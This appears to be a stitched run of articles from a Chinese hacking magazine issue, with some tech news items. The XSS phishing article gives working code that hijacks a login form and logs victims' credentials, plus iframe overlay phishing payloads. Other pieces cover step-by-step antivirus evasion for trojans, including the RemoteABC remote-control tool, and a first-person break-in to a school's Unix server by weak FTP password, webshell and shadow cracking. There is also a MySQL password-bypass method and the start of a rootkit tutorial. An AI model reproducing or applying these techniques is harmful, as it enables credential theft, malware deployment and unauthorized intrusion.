最后说一下我的交流邮箱是：504766417@qq.com，欢迎大家与我讨论本文内容。

> **编辑点评：**
>
> 很好的一篇文章，从实例到原理都有了出处，我相信作者写完这篇文章一定收获良多。不过在这里我要讲一下个人见解：作者在文章中获得和改变各个元素的值的方法其实有两种，一种是 DHTML（HTML、CSS、JavaScript 的结合，比较老一点），一种是 JavaScript DOM（文档、对象、模型的英文字母的简写，它的出现才使 JavaScript 获得第二春），作者其实对这两个概念分得并没有完全很清楚。像在 JavaScript Injection 交友征婚网站中利用的源码，利用的就是 JavaScript DOM 了。针对文章中第三部分获取 option 的值，其实我还有几个写法：`javascript:var obj=document.getElementById('kind');alert(obj.options[i].innerText)` 就是 DOM，而 `vbscript:msgbox(document.all.kind.options(i).text)` 或 `javascript:alert(document.form.kind.options[i].text)` 就是 DHTML 了。这些东西在原理解析里作者也有提到过，只是没有分概念统一介绍了，个人还是推荐大家用 DOM 的方法，因为各个浏览器都会适应，DHTML 就不一定了。至于如何更深刻理解两者的区别，更好地学习 JavaScript，推荐大家看《JavaScript DOM 编程艺术》一书。

# 跨站中关于钓鱼页面的伪造

lcx

上期余弦给大家带来了一期很精彩的关于 XSS Worm 的技术文章，不过他的文章也有点难度，没有一定 JS 基础的话，很难去实际利用，因为毕竟每个 XSS Worm 都要去分析具体环境再来写相应的代码。这一期我给大家讲一下关于跨站中钓鱼页面的伪造方法。

和余弦文章不同的是，我的代码你基本上可以应用到只要有跨站的地方即可，不需要做太多更改。

钓鱼页面估计大家见过很多，经常有人伪造和 QQ 网站一模一样的页面去骗人家 QQ 密码。5·12 过后，还有人伪造红十字会页面去骗人家捐钱，这个就太违背道德了。这样的伪造页面比较容易，只需将要伪造的页面全部离线下载后再传到空间上，起一个模糊的域名就可以了，这个不在我的文章讨论范围内。我要讲的是如何在跨站的地方，像邮箱、登录页面，骗取用户点击后伪造出一个和原来一样的页面，这个比较有意思一点。

## 一、不需要伪造页面的钓鱼方法

这个就是利用 JS 代码更改原来页面的提交指向，在后台运行我们邪恶的代码。先来看一个例子吧，假设有一个登录页面 `1.asp`，页面源码如下：

```html
<form action="1.asp" method="post" name="form">
<input type="text" name="name" value="" onclick="vbs:name.value='lcx'">
<input type="password" name="pass" value="">
<input type="submit" name="submit" value="提交">
</form>
<% If request("name")<>"" Then response.write request("name") & "||" & request("pass") %>
```

这个 `1.asp` 是我写的示例，当提交用户名和密码后就在当前页面上显示出你提交的值，如图1所示。还记得在本专栏上一篇文章里利用 JavaScript Injection 如何更改 HTML 元素值吗？如果 `1.asp` 这个页面恰巧存在跨站，可以让你写代码的话，那我们就来写一行代码吧：

```html
<script language="javascript">document.forms[0].action="2.asp"</script>
```

如果将这行代码插入在 `1.asp` 中，`1.asp` 源码变成了：

```html
<form action="1.asp" method="post" name="form">
<input type="text" name="name" value="" onclick="vbs:name.value='lcx'">
<input type="password" name="pass" value="">
<input type="submit" name="submit" value="提交">
</form>
<% If request("name")<>"" Then response.write request("name") & "||" & request("pass") %>
<script language="javascript">document.forms[0].action="2.asp"</script>
```

这样一来，用户本来提交给 `1.asp` 的数据就会提交给 `2.asp` 了。为了不让用户起疑心，我们 `2.asp` 的功能就做到一是要记录密码，二是要将用户提交的数据继续提交给 `1.asp`。看下 `2.asp` 的代码：

```asp
<%
dim username,password,fso,file,url
username = Request("name")
password = Request("pass")
Const ForReading = 1, ForWriting = 2, ForAppending = 8
Set fso = Server.CreateObject("Scripting.FileSystemObject")
path = server.mappath("cookie.txt")
set file = fso.opentextfile(path, ForAppending, TRUE)
file.writeline(username) & " 分隔符 "
file.writeline(password) & " 分隔符 "
file.close
set file = nothing
set fso = nothing
response.write "<form action=1.asp method=post>"
response.write "<input name=name type=hidden value=" & "'" & username & "'" & ">"
response.write "<input name=pass type=hidden value=" & "'" & password & "'" & ">"
response.write "</form>"
response.write "<script>"
response.write "document.forms[0].submit();"
response.write "</script>"
%>
```

`2.asp` 先是利用了 FSO 记录了密码，然后又利用自动提交表单把接收的值返回给了 `1.asp`。在整个运行的流程中，用户根本不会注意到他们的数据被窃取了。`1.asp` 和 `2.asp` 都是在本机空间做的演示，如果你要实际应用的话注意改一下 form 的 action 指向。

## 二、伪造页面的两个技巧

- 1、都是利用了 `<iframe>` 标签

如果存在跨站的地方，像邮箱里，用户一点击邮件，很快地重新出现了登录口，很多用户会重新输一次密码。这个重新出现的登录口要满足两个条件，一是要伪造得像，二是原来的 URL 不能变。如果在 126 的邮箱中一点，IE 地址栏变成了 `www.g.cn` 可不行。如果要 URL 不变，我们用 `document` 重写原来的页面就可以了。看一下第一种代码：

```html
<b id="lcx"><style>#lcx{xxx:expression(if(!window.x){document.write("<iframe src=http://www.google.com width=100% height=100% marginheight=0 marginwidth=0 frameborder=0></iframe>");window.x=1;})};</style></b>
```

这个代码我是用了 CSS 跨站，当然 `b` 标签你可以换成任意 HTML 元素。当页面打开后，伪造的 Google 页面就会占满整个屏幕了。

还有一种复杂的写法，我在红狼论坛上看到是 jackal 提出来的：`window.parent` 可以控制父框架的属性，所以当我们使用框架时可以使一个层处于最上方，去掉背景透明和背景色，我们就可以进行钓鱼了。这个页面的代码如下：

```html
<body>
<script type="text/javascript">
<!--
var bgdiv = window.parent.document.createElement("div");
bgdiv.style.width = screen.width;
bgdiv.style.height = screen.height + 200;
bgdiv.style.position = "absolute";
bgdiv.style.top = "0";
bgdiv.style.left = "0";
bgdiv.style.background = "#fff";
bgdiv.style.zIndex = "10000";
bgdiv.innerHTML = '<IFRAME marginWidth=0 marginHeight=0 src=http://www.sohu.com frameBorder=0 width=100% scrolling=no height=100% topmargin="0" leftmargin="0"></IFRAME>';
window.parent.document.body.appendChild(bgdiv);
//-->
</script>
<p>----------------- 原来页面内容 -----------------
-----------------</p>
</body>
```

这是利用了一个很大很大的透明层，层中加了一个满屏的框架，去掉了滚动条，从而伪造了页面。

## 2、关于调用页面

在技巧1中，我们只是调用了框架弹出了我们想要的页面，但是这个想要的页面如何调用才能避免被人发现 URL 呢？有两个办法，一个是 `xmlhttp` 远程调用，这个网上有很多文章了，我就不多啰嗦了。另一个是 `ADODB.Stream`，这个比较少见。举个例子，我的 `1.htm` 内容是：`<pre>我是lcx</pre>`，我要在另一个页面 `3.asp` 中调用，让人找不到 `1.htm` 的 URL，代码如下：

```asp
<%
Sub loading
Dim localpath2
localpath2 = Server.Mappath("1.htm")
Set obj = Server.CreateObject("ADODB.Stream")
obj.Type = 1
obj.Mode = 3
obj.Open
obj.LoadFromFile(localpath2)
obj.Position = 0
Response.BinaryWrite obj.Read
obj.Close
Set obj = Nothing
End Sub
Call loading
%>
```

把 `1.htm` 和 `3.asp` 传到同一空间上就可以了。当然了，ASP 还有很多其它办法，像 `server.Execute` 也是可以的。整篇文章我讲解了钓鱼中页面伪造的几个技巧，我都是用 ASP 来举例。其实任意服务器脚本都是可以做到的，如何用 PHP 或 Python 结合 JS 来实现更好的跨站呢？读者还是自行研究吧。

> [文章中的 1.asp、2.asp 和其它源码已收录在本期光盘，方便大家测试]

> **免K首语：**
>
> 曾经的七月，对我们这一代来说还是有一点恐怖的，因为那时候的高中时代——七月，流金似火的月份居然也能变成黑色七月，相信很多人都未忘怀曾经的七月阳关大道和七月的独木小桥。自从高考制度改革之后，后来的小伙子们也能变得很轻松，高考比我们那时候提前了一个月，而且志愿也能考后再填，想想，他们还真是幸福哦！从六月到九月，足足有三个月的充裕时间来玩，玩点什么好呢？要我介绍的话，你说不介绍免杀我还能介绍啥呢？

# 免杀操作小技巧

从本文你可以学习到：

- 免杀的一点小技巧

自从木马开始被杀毒软件查杀以后，木马免杀和杀毒软件的博弈就开始了。因此黑客想尽了各种各样的方法，来对木马程序进行免杀从而躲过查杀。可是很多免杀方法在使用过以后，用户都觉得这些免杀方法好像已经过时了。其实不然，让我告诉大家这些免杀方法失效的秘密。

## 一、入口加一为何失效

我们曾经使用过一个最简单的方法，就是在程序原来的入口点上加一。现在首先运行修改程序 PEditor，今天我们测试使用的是扫描程序 WebDAVScan。点击“浏览”按钮选择测试程序，这时 PEditor 会自动读取程序的“文件信息”，我们只需要对“入口点”这个信息进行一下修改即可。看到程序的“入口点”是 `00002A44`，现在只需要在这个值的基础上加 1，成为 `00002A45`，然后点击“应用更改”按钮进行确认即可。现在用杀毒软件查杀这个程序，一定是被查杀的。现在用 C32Asm 打开刚刚修改的测试程序，拖动旁边的滚动条很快就可以发现一段信息，里面介绍了 PEditor 软件的相关信息。现在选择这段介绍信息的内容，然后点击鼠标右键选择“填充”命令，在弹出的窗口中选择“使用十六进制填充”选项，在填充框中输入“00”后点击“确定”按钮即可完成。保存以后现在我们再进行一次查杀，发现程序已经不会再被查杀了，说明这段说明信息被定位为特征码。因此我们以后再利用 PEditor 修改后，只需要对这段说明信息进行填充即可。

## 二、程序加密再过免杀

利用加壳和加花工具进行免杀，是一种非常方便的免杀方法，其中 MaskPE 就是一种常见的免杀方法。现在运行程序 MaskPE，通过拖拽或是点击“Load File”按钮选择测试程序，接着通过在程序的“Select Information”列表中，选择倒数第二个选项“Import Table Information”，并且再选中“Type3”这个选项。现在点击“Make File”按钮，即可对测试程序进行加密操作。现在运行修改程序 LordPE，点击“PE 编辑器”来选择测试程序。在弹出的“PE 编辑”窗口中点击“区段”按钮，在弹出的“区段表”窗口可以看到，MaskPE 在测试程序的原文件里面，添加了一个名为 MaskPE 的区段信息内容。选中 MaskPE 这个区段后点击鼠标右键，选择其中的“编辑区段头”命令。现在将“名称”中的 MaskPE 改成其它的信息内容，比如我们这里改成 `nohack` 试一试看看，已经成功地躲过江民杀毒软件的检测。

> 【本文介绍的相关程序已收录在本期光盘中】

> **编辑点评：**
>
> 小技巧中有大智慧。比如这个入口加1是早两年很流行的技巧，不过你聪明，杀毒公司也不笨，所以失效了。但是，你有张良计，我有过墙梯，这本来就是一场斗智斗力的游戏，看谁笑到最后而已。

从本文你可以学习到：
免杀过 RemoteABC 凤凰鸽子

虽然灰鸽子木马已经没有了，但是和灰鸽子木马关系密切的凤凰论坛，推出了一款名为 RemoteABC 的远程控制软件，因此人们将其称之为凤凰鸽子。虽然凤凰鸽子是一款收费软件，但是这也无法难倒我们的广大网友，因为网友利用其它的方法已经可以免费进行使用。但是 RemoteABC 现在已经被杀毒软件所查杀，因此今天我们就来对其进行免杀，让凤凰鸽子重新飞翔。

# 一、配置服务程序

首先运行 RemoteABC 服务端配置信息生成器，按照自己的需要进行服务端程序的设置。

设置完成以后点击“专业会员”选项，因为专业会员使用的服务端没有功能限制。接着在用户名称和用户密码中随意地设置信息，然后点击“生成服务端配置信息”按钮，就会生成一个相应的配置信息文件，如图1。

图1 生成服务端配置信息

现在运行程序资源修改工具 Restorator，点击工具栏上的“打开文件”按钮，来选择网友提供的服务端程序。接着在 Restorator 的资源树下选择“CONAG”中的“TFORM2”这项，然后点击鼠标右键选择“导入”菜单来选择刚刚生成的配置信息文件，如图2。

图2 Restorator 中的 TFORM2 选项

这样就可以替换掉服务端程序中原有的配置信息，最后对修改的服务端程序进行另存为操作即可。

# 二、导出驱动文件

由于凤凰鸽子中带有一个驱动文件，通过它可以成功地突破杀毒软件的主动防御功能，因此在免杀的时候需要将驱动文件导出才行。首先运行系统自带的命令提示符窗口，通过 CD 命令切换到 RemoteABC 驱动文件导入导出工具所在的目录，然后输入 GetAbcTmp.exe 激活工具来进行使用。驱动文件导入导出工具的使用方法为：GetAbcTmp.exe - 或 + 服务端文件名 TMP 文件名。其中 - 表示导出 TMP 文件，+ 表示导入 TMP 文件，同时服务端文件名、TMP 文件名与本程序需要在同一目录，比如导出驱动文件为：GetAbcTmp.exe - AbcServer.exe my.Sys，如图3。

图3 CMD 运行 GetAbcTmp.exe

网络中可以直接对驱动文件进行免杀的程序不多，运行 EncrptySYS 这款驱动加壳工具，点击“浏览”按钮来选择导出的 SYS 文件，然后点击“加壳”进行驱动免杀操作。导出的驱动文件免杀后，必须重做文件的校验和，否则驱动加载会失败。运行修改程序 PEditor，点击“浏览”按钮选择刚刚免杀的驱动文件后，点击窗口中的“校验和”按钮。在弹出的窗口中点击“修正”按钮，这样就完成了驱动文件的完全修正。最后利用命令导入驱动文件：GetAbcTmp.exe + AbcServer.exe my.Sys。

# 三、免杀服务文件

现在可以开始进行服务端程序的免杀了，通过分析我们得知，RemoteABC 在金山毒霸中的特征码为 000739AE_00000003。现在运行“偏移量转换器”，首先通过打开按钮设置木马程序的路径，接着在“文件偏移”中输入特征码地址，点击“转换”按钮得到特征码在内存中的地址，如图4。

图4 偏移量转换器得到特征码

现在运行汇编程序 OllyICE 后载入服务端文件，接着通过滚动条移动找到内存特征码的地址，即 004745AE。特征码周围的代码如下：

```text
004739AB： 8945 E0
004739AE： 8945 E4
004739B1： 8945 E8
MOV
MOV
MOV
[EBP-20],EAX
[EBP-1C],EAX
[EBP-18],EAX
```

现在点击右键选择“汇编”命令，这里我们将三句代码的顺序进行打乱，然后新的代码的位置如下：

```text
004739AB： 8945 E4
004739AE： 8945 E8
004739B1： 8945 E0
MOV
MOV
MOV
[EBP-1C],EAX
[EBP-18],EAX
[EBP-20],EAX
```

修改完成以后，选择右键中的“复制到可执行文件”，接着在它的子菜单中选择“选择部分”命令，然后在新窗口中点击鼠标右键，选择其中的“保存文件”命令后进行保存即可。最后我们再来对服务端程序加一个壳，对服务端程序进行再一次的保护设置。运行加壳工具 RLPack，点击“浏览”按钮来选择服务端程序，将“选项”中的“擦除 TLS”、“擦除重定位”、“擦除输出表”选择后，点击“压缩”按钮就可以成功进行加壳操作，如图5。

图5 RLPack 加壳

## 四、小结

终于在不同的余震中，写完了这篇简单的免杀文章。虽然凤凰鸽子的操作性和灰鸽子一样简单，但是由于并没有老大哥灰鸽子的名气响亮，因此总的来说，凤凰鸽子的免杀是非常简单的，主要就是对驱动文件和服务端文件进行免杀。由于凤凰鸽子自身可以突破主动防御，因此我们就不需要再对其进行设置。

【本文介绍的相关程序已收录在本期光盘中】

# 编辑点评

一般新出现的远控不会马上被查杀，但是过一段时间后，那就肯定会被杀的。本文的免杀方法还是比较简单的，通过作者文章的清晰思路，没难倒你，当然也没难倒我！

# 1、OOXML 遭多国反对 前路难行

OOXML 是微软 Office 2007 的默认文件格式，凭借 Office 软件的巨大影响力，OOXML 的支持者阵营囊括了苹果、英特尔、Novell、东芝以及 Java 开发商等著名企业或组织。但与此同时，由于担心微软垄断和不开放，OOXML 也有很多反对者。他们认为，ISO 不应当批准某一家公司的商业产品为国际标准。所以在去年 9 月，由于未能获得足够多的支持票，OOXML 没有在首轮投票中获准成为国际标准。

不过，微软的第二次机会来临了。3 月 29 日，ISO 成员再度就这一议题进行投票表决。在两次投票之间，微软对 OOXML 进行了针对性的修改和调整，希望能获得更多 ISO 成员的支持，最终 OOXML 通过投票成为国际标准。

虽然通过了审核，但是并不是这么一帆风顺。从目前反对 OOXML 的声浪有越来越大的形势来看，受到各国压力，国际标准组织短期内难以正式下发批文给微软。并且不断地有用户抗议，使微软做了一系列的让步，让 Office 2007 支持 ODF、PDF 和 XPS 等竞争对手的文件格式，但仍是吃力不讨好，相继有南非、巴西、印度、丹麦对于微软主导的 Open Office XML 文档格式被列为 ISO 国际标准提出抗议和申诉。

众所周知的是，微软这一努力的目的，是让支持 Open Office XML 格式的 Office 2007 办公软件能够获得丰厚的政府采购合同，因为许多国家的各级政府在采购中对于软件是否支持国际标准的文档格式有要求。

> **风飘点评：**
>
> 看来虽然通过了国际标准，OOXML 的日子还是不好过，并且有消息称微软自己的 Office 2007 都没有严格遵守 OOXML，现在反对的声音到处都是，OOXML 能不能保持得住它的地位呢？标准的争夺持续了近一年，最终应该如何抉择？看来 OOXML 要夭折了。

# 2、龙芯展示 Everest 和 RedOffice 龙芯版

5 月 21 日上午，龙芯俱乐部广州的会员集体参加了 2008 广州信息产业周展览会，龙芯俱乐部的展台就在中科红旗软件公司的展位上，易拉宝也是红旗公司提供的。展台上展示了龙梦福珑迷你电脑、海山龙芯一体机、龙芯防火墙等产品，演示了最新发布的运行在龙芯平台上的 Everest 操作系统和 RedOffice 办公软件，同时也是第一次把 RedOffice 移植到 Everest 龙芯版上。而 RedOffice 龙芯版也是刚刚才发布并部署在贵州 20 多所“青少年龙芯红旗计算机教室”里的梦珑笔记本电脑上。

> **风飘点评：**
>
> 国内的行情似乎对于 Linux、开源之类的东西不太感冒，那这次“龙芯”应该把大家的视线拉回来了。这次 RedOffice 移植到 Everest 龙芯版上，虽然称不上是什么里程碑，但至少能让我们真切地感觉到龙芯的脚步了。到目前，我们能做的也只有为龙芯默默地祝福了，希望它真的像龙一样，能够飞得很高很高。

# 3、FireFox 市场占有率将在下月突破 20%

在浏览器市场，Mozilla FireFox 越战越勇，据 Mozilla 市场部门人员 VP Vince Vizzaccaro 估计，按照目前的增长趋势，不出意外，FireFox 的市场占有率将在下月突破 20%。

越来越多的人正在将 FireFox 上的“默认浏览器”功能勾选，同时，FireFox 3.0 RC1 版本也已经获得了非常可观的下载安装量。

同时他还讽刺了 Safari 将浏览器当成“更新”的做法，宣称 FireFox 完全是按照传统的方法“安装”到现在这个数目的。

> **风飘点评：**
>
> FireFox 一直在成长着，它的优秀是不需要风飘在这里啰嗦的。为了扩大影响，FireFox 正在进行一个创世界纪录的活动，你参加了吗？

# 4、Ubuntu 小本 Netbook Remix 曝光

还记得 Mark Shuttleworth 说在六月第一个星期会发布 Ubuntu 便携式电脑的操作系统 Ubuntu Netbook Remix 吗？由于当时 DELL 和 Ubuntu 合作，而 DELL 又发布便携式电脑，所以当时猜想很可能第一个推出 Ubuntu Netbook Remix 的是 DELL 电脑（而且之前 DELL 已经推出了 Ubuntu 系统的笔记本电脑）。如今人们更关注的是 Ubuntu Netbook Remix 究竟是怎么样的，2008 年 6 月 3 日在台湾的 Computex 上终于展出了 Ubuntu Netbook Remix 系统，这个让人期盼很久的 OS 终于露出庐山真面貌！

> **风飘点评：**
>
> 早就有谣传，直到这个月，Netbook Remix 终于与大家见面了。试用过之后感觉的确不错，不仅仅是按钮变大这么简单，更增加了不少让你爱不释手的新东西，对小笔记本领域的硬件支持也特别下了功夫，可以说，移动 Ubuntu 是未来互联网移动接入装置的首选操作系统。

# 菜鸟也拿 Unix 服务器

图 熟悉的陌生人

从本文您可以学到：
简单的入侵 Unix 服务器

大家好，我是熟悉的陌生人，本人是《黑客手册》的忠实读者，这天在学校网站上闲逛，无意中找到一个链接，网站是用 JSP 做的，正好以前没怎么搞过 JSP，就试试吧。先看服务器的信息，我们提交个不存在的页面，看返回信息，如图1。

图1 不存在的页面返回的信息

从图1可以看出，服务器采用的是 Unix SunOS 服务器，Apache 提供 WWW 服务，JSP 的注入我不太懂，那就来扫扫看开了哪些端口吧。

| 端口 | 服务 |
|---|---|
| 22 | SSH 远程登录协议 |
| 513 | login |
| 25 | SMTP 简单邮件发送协议 |
| 80 | 全球信息网超文本传输协议（WWW） |
| 21 | 文件传输协议（控制） |

感觉 21 和 22 这两个端口还容易一些，因为可能存在弱口令，那我们来试一下，打开 Hscan，勾选 SSH 和 FTP 两个，开始扫描。运气不错，扫到了个 FTP 的弱口令，如图2。

图2 扫描到弱口令

利用 FlashFXP 顺利连上，如图3。

图3 建立连接

有了 FTP，上传个木马吧，不过这个服务器不支持 ASP 和 PHP 格式木马，我只好下了个 JSP 木马，传上去后仔细翻找目录，终于找到了存放木马的目录，顺利拿到 WebShell，如图4。

图4 找到木马

接下来看看权限吧，执行 id 命令，结果如图5。

图5 执行结果

权限很高啊，真是太让人兴奋了，记得 Unix 密码文件是放在 etc/shadow 里，马上跳转到那个文件下，可以访问 shadow 文件，如图6。

图6 访问 shadow 文件

复制到本地，用 John 1.7 破解一下，我没有好字典，就用 single 参数简单破解一下吧，运气不错，破解了 oracle 的密码，用 SSH 成功连上，如图7。

图7 成功连接

接下来我们可以选择溢出或者破解出 root 的密码，我就不继续下去了。

这次入侵很简单，没有什么技术含量，当我们遇到一个非 Windows 系统时，不要惧怕它，多开阔下思路，成功或许就在眼前。欢迎大家来《黑客手册》论坛与我交流，我的论坛 ID 570589037。

# 编辑点评

这次入侵也太顺利了，让小编都流汗。即使默认安装的 Unix 主机也不会出现这么多问题，FTP 用户没有严格审核权限也勉强说得过去，那 JSP 居然以 root 运行？管理员故意的？至少这个故事告诉我们，以后遇到 Unix 也不用怕，Unix 虽然厉害，没有用心去配置，还是很容易拿下来的。

# Unix 系统安全——MySQL 安全之初

图 evilangel

从本文您可以学到：
1、怎样安全地安装 MySQL 数据库
2、安装后的安全配置

MySQL 作为目前互联网使用最广泛的数据库之一，为广大用户所青睐。MySQL 具有高可靠性、超快的查询速度，每年的用户剧增。而在商业黑客盛行的今天，我们企业的数据更为重要。现在利用 MySQL 提权的方法比比皆是，作为 DBA 的你怎么还能沉默！这期我们共同探讨一下 MySQL 初始安装的安全加固。

# 实践环境

操作系统我用 FreeBSD 来为大家演示，FreeBSD 是一个非常强悍而且稳定的操作系统，它延续了古典 BSD 的安全、稳定、高效的特点，本文的实验在 FreeBSD 测试通过；MySQL 的版本为 5.1 及 5.0，我选择 MySQL 5.1.24，其各版本的安全是有一定差异的。

# 安装 MySQL 数据库

有很多朋友不太重视数据库初始的安装！在 UNIX 系统中很多朋友喜欢用 rpm、yum 或 pkg 安装，在这里，我建议你用源码安装。

建议使用一个普通用户来安装服务器或用普通用户初始化数据库！

为什么？常玩黑的朋友们知道缓冲区溢出，如果默认安装数据库，程序守护者是“root”，那么，MySQL 程序出问题了，溢出的权限是什么？一般来讲是程序守护者（root）的权限。反言之，阿猫阿狗运行的程序出问题了，溢出的权限就是阿猫阿狗。

本文约定下文的 mysql 代表系统中的用户或组；MySQL 代表 MySQL 数据库；root 没有特定说明代表 MySQL 数据库管理员账户。先新建一个组及用户来运行 MySQL，FreeBSD 建立账号的命令和其它类 UNIX 系统不同，相关命令如下。

```bash
pw groupadd mysql
pw useradd mysql -g mysql -m varmysql
```

解压、配置、编译及安装的命令：

```bash
tar zxvf mysql-5.1.24-rc.tar.gz
./configure --prefix=/usr/local/mysql \
--with-charset=gbk --with-extra-charsets=all \
--localstatedir=/var/mysql
make; make install
```

切换成 mysql 用户，初始化数据库命令如下：

```bash
su - mysql
/usr/local/mysql/bin/mysql_install_db
```

一般保证初始化数据库的目录当前用户有“7”的权限就没有问题，这里是 varmysql 目录，这时你可以用“/usr/local/mysql/bin/mysqld_safe -u mysql &”来运行 MySQL，安装过程比较简单，这里我就不解释太多了。为了安全，这里要注意一点，除 varmysql 目录权限属于 mysql 用户，其它安装的数据库文件应属于系统 root 用户。

# 密码安全

我们说 UNIX 系统没有密码也是“安全”的，因为没有密码的用户，远程连接是无法完成的，但是 MySQL 数据库账号没有密码一定是不安全的。默认任何拥有服务器权限的用户都可以用“mysql -u root”来连接数据库，如图1，很遗憾默认安装 MySQL 时 root 是没有密码的。但是这里要注意一点，当前这种连接只能在本地连接，比如你有服务器上的 Shell。

一般的管理员用 root 连接数据库，用“SET PASSWORD FOR root@localhost=PASSWORD('123456');”来给 root 设置一个新密码——123456，当然“123456”不是一个好密码，在图1你可以看到改密码的前后对比。这种简单的设密码当然是不安全的了，不是说密码强度，而是说有方法绕过密码验证，先卖个关子，你往下看。

> 注：FreeBSD 系统的 root 用户和 MySQL 的 root 用户是两个不同的概念，而系统用户和数据库用户也是不同的概念。

# 加强 MySQL 进程守护者安全

我们进行了第一步，让服务器进程以普通用户来运行，很多管理员是这么做的，也是 MySQL 官方推荐的。大多管理员用完这个普通用户就放在一边不理他了，注意 mysql 用户是没有密码的，虽然没有密码也“安全”，但是他担负着的任务和其它用户不一样。

我用一个例子来说明下，比如拿系统中初始化数据库的 mysql 用户得到 MySQL 数据库的 root 权限，注意哦，必须是 mysql（初始化数据库的用户），别的用户是不可以的。

首先，你要有当前系统任意一个普通账号，当然你在“实战”的时候不一定知道服务器的情况。可以先利用“netstat -an | grep LIST”来查看是否运行了 MySQL 数据库，用“ps aux | grep mysql”来得到运行 MySQL 数据库用户是谁，实战时候有可能是阿猫也说不定，用“su - mysql”切换成 mysql 用户，如图2。

因为 MySQL 服务正在运行，首先你要干掉它的进程。这时找到一个文件——MySQL 服务器 PID 进程，一般爱“干净”的管理员会把它放到 var/run/mysql 目录，爱“整洁”的管理员会把它放到 /usr/local/mysql/data 或 /var/mysql/data 里面。一般名称是“hostname.pid”，在 shell 中运行“hostname”所看到的名字加上 .pid 就是这个文件了。

我这里路径是 /var/mysql/server.domain.abc.com.pid，运行“kill `cat /var/mysql/server.domain.abc.com.pid`”命令来结束 MySQL 进程，如图3。注意：命令不是 kill -9，也不是 killall，而且那个符号是“`”而不是单引号。

这时你要找一个权限为 777 的目录，一般 tmp 目录就满足我们的需求，当然你找到一个可写的目录也成。新建一个文本文件写入“SET PASSWORD FOR 'root'@'localhost' = PASSWORD('654321');”，这个语法很面熟吧，这是一个 SQL 语句，大意是将密码改成 654321。在 shell 中运行“/usr/local/mysql/bin/mysqld_safe --init-file=/tmp/test &”，那个 test 文件就是你写入修改密码语句的路径，mysqld_safe 是 MySQL 运行程序。这时你就可以用新的密码登录服务器了，如图4。在搞服务器的过程中，建议你在停止数据库时，把 MySQL 的 user.* 先备份出来，完成你的“工作”后再恢复回去，因为这种方法你把人家密码改了，小心被人发现。

解决方案：在这里面我们一般思路就是不让其它用户切换成服务器进程守护者身份就可以了，比如加上密码，但这不是个好的解决办法。我们可以不让这个用户登录，运行“pw usermod mysql -s /sbin/nologin”命令，改变该用户的 shell，让 mysql 用户无法登录服务器，也就不能完成以上的工作了。这个时候如果他没有系统的 root 权限，我想神仙也没有办法，当然他如果有系统 root 权限，那神仙也救不了我们的服务器。

# 绕过 root 密码验证

我们看，似乎从账号上面感觉很安全了，其实不然。很多管理员认为用“SET PASSWORD FOR……”给 root 加上密码，我们拿他就没办法了。告诉大家个秘密，我们用 mysql -u root登录现在会出现“ERROR 1045 (28000) Access denied for user 'root'@'localhost' (using password NO)”错误，那么我们改变登录方式，运行“mysql -hserver.domain.abc.com -u root” 试试，如图5所示，仍然可以用 root 空密码连接服务器！ -h 后面接的是主机名，当然用 IP 地址也可以，而 127.0.0.1不可以。其实这种方法是有一定的局限性的，有的 Linux 版本就不可以，那么这点就更容易被人忽视。

图5 用户名形式 root 空密码仍然可以登录

因为网络上或书籍中没有利用这个方法的案例（可能我没看到），按着我自己的经验及实验来判断，一般 ping hostname 后返回的是主机 IP 地址的都可以利用；而返回的是回环地址的就不能利用，这可能和 UNIX 的版本有关，原理我也不清楚，欢迎大侠的点拨指正。

那么造成这种情况是为什么呢？其实用一条 SQL 语句你一看就明白了。“select user,host,password from mysql.user;”，如图6，看到最后两行了吗？ user 和 password 是为空的，也就是说，你在系统中用非 root 登录到服务器，运行“mysql”就可以来宾身份登录 MySQL 服务；看 user 字段后两行的“root”，password 字段为空了吧，也就是说，用主机名形式不用密码也可以登录到服务器，因为密码为空，我们在图6中已经看到了。

解决方案：用 SQL 语句删除 user 表中的空用户名字段，“DELETE FROM mysql.user WHERE user=''; ”，删除 host 字段除 localhost 的字段命令为“DELETE FROM mysql.user WHERE host='server.domain.abc.com'; ”和“DELETE FROM mysql.user WHERE host='127.0.0.1'; ”，然后运行“flush privileges；”更新授权表。再来试试，已经绕不过去密码登录了吧，如图7。

图6 查看 MySQL 的 user 表

图7 彻底拒绝空密码用户

小结：这期我们只介绍了 MySQL 服务器安装时会带来的安装隐患及利用方法，并没有提到服务器运营时的安全设置。如果您立志做一名管理员，那么此文会给你在初始安装时敲响警钟；如果你立志做个黑客，那么此文给你介绍两个绕过 MySQL 对账号管理方法。虽然此文方法很初级，但是管理员们谨慎，黑客们注意，攻与防是对立统一的！

## 编辑点评：

对于 MySQL 的安装，很多非专业的朋友还是很注意的，所以产生了很多的安全隐患。特别是对目录权限的配置，另外，就如作者说的，在不同的环境下的 MySQL 也是有区别的，在配置的时候要注意。

图书馆@[电子科技大学凝聚网络安全工作室]

从本文您可以学到：

- 1.了解如何利用驱动与用户程序通信
- 2.打开/关闭/读/写设备

Rootkit 是持久且无法察觉地存在于计算机之上的一组程序和代码。
——RootKit: Subverting the Windows Kernel

汶川地震了，我们在成都，不算太远还凑合着过吧。解放军为我们牺牲了很多，包括他们的时间，热血，甚至生命！向解放军以及那些所有为抗震做出贡献的人致敬！

上一次我们完成了自己的第一个“Hello,World”驱动，这次我们就从 RootKit 的设计思路出发，讨论驱动程序与用户空间的通信问题。

回想一下我们使用驱动的目的：获得更高的访问权限以便更好的躲避杀毒软件的查杀。要使驱动程序做到这点，并不难，所以我们考虑下一个问题，RootKit 的功能是否强大。要实现“各种各样，五光十色，品种繁多……”的功能，是离不开一大堆 Win32 API 调用的。试想，不用 API，怎么实现抓取屏幕（监视屏幕）？或者退一步，我们要实现的 RootKit 只需要绑定一个 CMDShell，不管是套用管道，但 CreateProcess 或这一类的 API 总跑不掉吧。现在的事实是，驱动程序没有办法直接调用 Win32 API。有人会有疑问，既然驱动不可以调用 Win32 API，为什么 DDK 会提供了 windows.h 及 winbase.h 这样的头文件，而且其中确实定义了许多 Win32 API？要回答这个问题，我们先搞清楚 DDK 可以做什么。DDK 除了可以编译驱动，还可以编译动态链接库 (DLL)、静态链接库 (LIB)、各种控件 (OCX、DLL 等)、Win32 可执行文件 (EXE) 等。要编译这些东西，如果没有那一堆头文件还真的整不起来。细心的人会发现，这些给 Win32 下准备的头文件一定和 VS 的某个版本的头文件一模一样！我装的 DDK 的头文件就和 VS 2003 提供的是同一套。现在应该有人猜到 SOURCES 文件中 TARGETPATH=OBJ、TARGETPATH=DRIVER 两行的意义了，就是定义要编译的目标程序的类型 (顺便说一句，编译好的 SYS 文件也是 PE 文件)。

